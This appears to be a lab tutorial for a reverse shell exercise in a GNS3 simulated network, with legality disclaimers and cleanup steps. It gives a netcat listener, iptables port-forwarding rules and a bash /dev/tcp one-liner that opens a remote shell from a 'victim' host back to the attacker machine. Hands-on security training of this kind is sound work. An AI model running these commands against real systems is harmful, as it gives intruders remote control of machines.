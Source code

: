 # Reverse Shell Exercise in GNS3

# Note: Unauthorized penetration testing is illegal. Conduct this exercise only in an educational or authorized setting.

This document provides step-by-step instructions for setting up a reverse shell using a simulated environment in GNS3. Please note that this is for educational purposes and should only be conducted in an environment where you have explicit authorization.

## Table of Contents

1. [Set Up Listener on the Kali Machine](#step-1-set-up-listener-on-the-kali-machine)
2. [Configure Port Forwarding on the Router](#step-2-configure-port-forwarding-on-the-router)
3. [Create and Deliver the Payload](#step-3-create-and-deliver-the-payload)
4. [Catch the Reverse Shell](#step-4-catch-the-reverse-shell)
5. [Monitor Traffic (Optional)](#step-5-monitor-traffic-optional)
6. [Post-Test Cleanup](#step-6-post-test-cleanup)


## Step 1: Set Up Listener on the Kali Machine

Open the terminal on the Kali machine and run the following command:

```bash
nc -nlvp 4444
```


## Step 2: Configure Port Forwarding on the Router

Assuming a Linux-based router in GNS3, open its terminal and run:

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 4444 -j DNAT --to-destination 192.168.122.208:4444
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```

## Step 3: Create and Deliver the Payload

Execute the following shell command on the victim machine (192.168.122.47):

```bash
/bin/bash -i >& /dev/tcp/192.168.122.208/4444 0>&1
```

## Step 4: Catch the Reverse Shell

If everything is set up correctly, the Netcat listener on your Kali machine should catch the reverse shell from the victim machine.

## Step 5: Monitor Traffic (Optional)

You can use Wireshark for this purpose. To capture packets in GNS3, right-click on a connection and choose "Start Capture".

## Step 6: Post-Test Cleanup

To disable the port forwarding rules and stop the Netcat listener:

```bash
sudo iptables -t nat -D PREROUTING -p tcp --dport 4444 -j DNAT --to-destination 192.168.122.208:4444
sudo iptables -t nat -D POSTROUTING -j MASQUERADE
```
# Note: Unauthorized penetration testing is illegal. Conduct this exercise only in an educational or authorized setting.

